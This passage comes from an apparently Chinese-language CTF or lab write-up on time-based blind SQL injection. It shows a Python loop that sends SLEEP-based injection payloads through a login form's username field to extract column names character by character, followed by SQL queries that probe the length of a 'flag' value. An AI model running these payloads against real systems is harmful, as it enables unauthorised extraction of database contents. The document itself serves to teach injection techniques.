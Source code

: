 ```py

# 获取字段名
columnName = ''
for i in range(1, columnLen + 1):
    print(f'正在测试第 {i} 个字段名字符')
    for j in charset:
        payload = f"0' OR (SELECT 1 FROM (SELECT IF(SUBSTRING((SELECT GROUP_CONCAT(COLUMN_NAME) FROM information_schema.columns WHERE TABLE_SCHEMA='{database}' AND TABLE_NAME='{table}'),{i},1)='{j}',SLEEP(1),1)) AS a)#"
        response = requests.post(url, data={'username': payload})
        if response.elapsed.total_seconds() > 1.0:
            columnName += j
            break
print(f'>>> 字段名为: {columnName}')
```

结果如下

> <img src="./IMG3/{A4137D27-E621-4E56-B9ED-3A3D4ED7C573}.png">

###### 泄露字段值

字段值的泄露通过查询目标表获取，例如

```sql
SELECT 1 FROM (SELECT IF(LENGTH((SELECT flag FROM flag))>7,SLEEP(1),1)) AS a;
```

> <img src="./IMG3/{15B56B7D-45A3-456E-B20A-140FC7DAB271}.png">

```sql
SELECT 1 FROM (SELECT IF(LENGTH((SELECT flag FROM flag))>30,SLEEP(1),1)) AS a;
```

> <img src="./IMG3/{CB946C56-99D7-4E5F-AD33-1695EB7338E4}.png">
